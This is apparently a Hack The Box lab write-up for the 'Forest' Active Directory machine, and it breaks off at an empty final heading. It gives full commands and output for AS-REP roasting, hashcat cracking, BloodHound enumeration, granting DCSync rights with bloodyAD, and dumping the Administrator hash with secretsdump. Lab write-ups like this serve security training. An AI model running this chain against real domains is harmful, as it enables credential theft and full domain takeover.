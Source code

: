 <p align="center">
  <img src="img/Forest.png" alt="Description de l'image" width="300"/>
</p>

# Intro

Forest was my first AD machine after completed the CPTS path of HTB.
It's a well known machine for getting started with Active Directory environments. It is an easy-rated machine. The pentest is performed in a black box context as we have no credentials, only the machine's IP address.
I started by a ASREP-Roasting and found that `svc_alfresco` do not requirer Kerberos pre-auth and succesfuly cracked offline his TGT.
After that I used his account to harvest all the domain ACLs and discovered that `svc_alfresco` is a part of the `Account Operators` which has the `GenericAll` over the `Exchange Windows Permissions`.
This group has the `DCSync` ACL over the domain. So I performed a DCSync attack to recover the `Administrator` NT hash and fully compromised the domain

# Walkthough

## Enumeration

I began to enumerate services on the host with the `nmap` tool.

```bash
 # nmap -sV -sC -p- -T5 10.129.62.73

PORT      STATE SERVICE      VERSION
25/tcp    open  smtp-proxy   Avast! anti-virus smtp proxy (cannot connect to 10.129.62.73)
|_smtp-commands: SMTP EHLO htb.local: failed to receive data: connection closed
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-10-15 12:44:26Z)
110/tcp   open  pop3-proxy   Avast! anti-virus pop3 proxy (cannot connect to 10.129.62.73)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
143/tcp   open  imap-proxy   Avast! anti-virus IMAP proxy (cannot connect to 10.129.62.73)
|_imap-capabilities: CAPABILITY
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
465/tcp   open  tcpwrapped
|_smtp-commands: Couldn't establish connection on port 465
587/tcp   open  smtp-proxy   Avast! anti-virus smtp proxy (cannot connect to 10.129.62.73)
|_smtp-commands: SMTP EHLO htb.local: failed to receive data: connection closed
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
993/tcp   open  tcpwrapped
995/tcp   open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49681/tcp open  msrpc        Microsoft Windows RPC
49698/tcp open  msrpc        Microsoft Windows RPC
49996/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-10-15T02:56:25-07:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time:
|   date: 2025-10-15T09:56:23
|_  start_date: 2025-10-15T08:53:18
```

Kerberos and LDAP services are exposed on the host, which leads to conclude that this is a Domain Controller within an Active Directory environment.
The domain name is `htb.local` and The DC FQDN is `FOREST.htb.local`.

I added this information to /etc/hosts.

```bash
# echo '10.129.62.73 htb.local FOREST.htb.local FOREST' >> /etc/hosts 
```

## Kerberoasting `svc-alfresco`

It seems like nmap was able to retrieve several information, maybe smb is accessible from an anonymous connexion.
Let's confirm that with NetExect.

```bash
# nxc smb FOREST.htb.local -u '' -p ''
SMB         10.129.62.73    445    FOREST           [*] Windows 10 / Server 2016 Build 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.62.73    445    FOREST           [+] htb.local\:
```

It's confirmed, it is the same for ldap?

```bash
nxc ldap FOREST.htb.local -u '' -p ''
LDAP        10.129.62.73    389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.62.73    389    FOREST           [+] htb.local\:
```

Yes! So whith that, we can perfrom an AS-REP Roast attack to request a user TGT without his password.

```bash
# nxc ldap 10.129.62.73 -u '' -p '' --asreproast asreproast.txt
LDAP        10.129.62.73    389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.62.73    389    FOREST           [+] htb.local\:
LDAP        10.129.62.73    389    FOREST           [*] Total of records returned 1
LDAP        10.129.62.73    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:68342ef59bc941531618bb589cedd8b9$703ea2b719fbf84824611c4a36e59852274e2965faea332486dd5a722303a807aa6725bb329781f67eb5658f04b87d2ff9053d1840c47838b432d96101ca7dd50251a8c3d5c43a7835d5738ab027807d30692966ead77e33e4011fe47bb7a073a347afd640a2016bda5bdde0c0b96e5c08cd6019867d784be570a5796c7f238fd28cbd0defb930880719502dfd430d47bfe86c1a18de199a44a5163b11eddc794ef682f8d16c807c6b2bbc621a43506a4f5bbea0fc499c92f9f82b37f9e0a0689c938ac1e1cdd6a4dfff8bfe16c88965469cc3b8c89ef41655f9b8999dd3ab73885b7e083452
```

Here is the hash! Notice that no userlist is necessary because the null session is allowed and the tool enumerate first the usernames and make the AS-REQ automaticaly for each users.

## Cracking `svc-alfresco` hash

I tried to crack this AS-REP hash with `Hashcat` to revael the `svc-alfresco` password.

```bash
# hashcat -m 18200 asreproast.txt /opt/lists/rockyou.txt       

$krb5asrep$23$svc-alfresco@HTB.LOCAL:68342ef59bc941531618bb589cedd8b9$703ea2b719fbf84824611c4a36e59852274e2965faea332486dd5a722303a807aa6725bb329781f67eb5658f04b87d2ff9053d1840c47838b432d96101ca7dd50251a8c3d5c43a7835d5738ab027807d30692966ead77e33e4011fe47bb7a073a347afd640a2016bda5bdde0c0b96e5c08cd6019867d784be570a5796c7f238fd28cbd0defb930880719502dfd430d47bfe86c1a18de199a44a5163b11eddc794ef682f8d16c807c6b2bbc621a43506a4f5bbea0fc499c92f9f82b37f9e0a0689c938ac1e1cdd6a4dfff8bfe16c88965469cc3b8c89ef41655f9b8999dd3ab73885b7e083452:s3rvice

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
```

The hash is cracked! I have a first domain credential:
`svc-alfreso:s3rvice`

## Enumerating ACLs with Bloodhound

I used `bloodhound.py` to dumps all ACLs of 

```bash
# # bloodhound.py --zip -c All -u 'svc-alfresco' -p 's3rvice' -dc FOREST.htb.local -d htb.local -ns 10.129.62.73
```

Let's check with `Bloodhound` the attacks path I have from `svc-alfresco`.

![](img/svc-alfresco.png)

This account, through several groups, is a part of the powerfull `Account Operators` group. 
This group have permissions to create, modify, and delete most user accounts, groups, and computers, with the exception of administrative accounts and groups.
Moreover I see that `Account Operators` has the `GenericAll` ACL over the `Exchange Windows Permissions` group.

![](img/exchangeWindowsPermissions.png)

This group has the `WriteDacl` over the `htb.local` domain!

Here the path is clear, I'll create a new user and add it to `Exchange Windows Permissions` group. After that, I'll add the DCSync ACL to `svc-alfresco` over `htb.local` domain.
Finally, I'll perform a DCSync attack to recover the `Administrator` hash to compromise the domain.

## Creating a new user

I use the `Bloody-AD` tool for all steps.

```bash
# bloodyAD --host "FOREST.htb.local" -d "htb.local" -u "svc-alfresco" -p "s3rvice" add user m3ringue 'Bagu3tte!'
[+] m3ringue created
```

## Adding `m3ringue` to `Exchange Windows Permissions` group

```bash
# bloodyAD --host "FOREST.htb.local" -d "htb.local" -u "svc-alfresco" -p "s3rvice" add groupMember "exchange windows permissions" m3ringue
[+] m3ringue added to exchange windows permissions
```

## Adding DCSync ACL to `m3ringue`

```bash
# bloodyAD --host "FOREST.htb.local" -d "htb.local" -u "m3ringue" -p 'Bagu3tte!' add dcsync m3ringue
[+] m3ringue is now able to DCSync
```

## Performing the DCSync attack

```bash
# secretsdump -just-dc-user administrator htb.local/m3ringue:B4guette@10.10.10.161
Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```
The administrator password NT hash is dumped!
`Administrator:32693b11e6aa90eb43d32c72a07ceea6`

## Connecting to the DC



